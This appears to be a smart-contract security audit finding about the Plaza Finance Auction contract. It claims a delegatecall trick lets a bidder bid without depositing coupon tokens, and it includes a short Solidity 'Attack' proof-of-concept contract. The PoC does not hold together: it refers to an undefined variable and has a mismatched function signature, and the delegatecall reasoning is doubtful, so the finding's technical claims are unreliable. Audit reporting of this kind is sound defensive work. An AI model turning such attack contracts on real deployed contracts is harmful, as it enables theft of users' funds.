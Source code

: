 Sleepy Mustard Opossum

High

# Malicious bidder just increase `currentCouponAmount` value with no coupon tokens deposit

### Summary

Attackers can exploit the `delegatecall` function in `Auction.sol`, allowing them to participate in the auction without making a deposit.

### Root Cause

If the attacker uses `delegatecall` to invoke the following function, coupon tokens are transferred to the attacker's contract. However, there is no verification between the balance of the auction and the `sellAmount`.

Refer to the [function bid()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125C3-L171C4):

```solidity
131    // Transfer buy tokens to contract
132    IERC20(buyCouponToken).safeTransferFrom(msg.sender, address(this), sellCouponAmount);
```

Additionally, the attacker receives a bonus coupon amount if their bid is removed from the linked list. This behavior is defined in the following functions:
- [function removeExcessBids()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L285C1-L286C80)
- [function _removeBid(uint256 bidIndex)](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L324C1-L325C67)

```solidity
285        // Refund the proportional sellAmount
286        IERC20(buyCouponToken).safeTransfer(currentBid.bidder, amountToRemove);
```

```solidity
324    // Refund the buy tokens for the removed bid
325    IERC20(buyCouponToken).safeTransfer(bidder, sellCouponAmount);
```

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This vulnerability can lead to a loss of coupon tokens in the auction and potentially result in a Denial of Service (DoS).

### Proof of Concept (PoC)

The attacker can utilize the following contract:

```solidity
contract Attack is Auction {
  address public owner;
  Auction public auction;

  constructor(Auction _auction) {
    owner = msg.sender;
    auction = Auction(_auction);
  }

  function fakeBid (
    uint256 buyReserveAmount,
    uint256 sellCouponAmount
  ) external returns(uint256) {
    (bool success, bytes memory data) = address(pool).delegatecall(abi.encodeWithSignature("create(uint256)", buyReserveAmount, sellCouponAmount));
  }
}
```

### Mitigation

To mitigate this issue, ensure that tokens are transferred to an indexed address or verify that the change in the auction's coupon token balance is below the `sellCouponAmount`.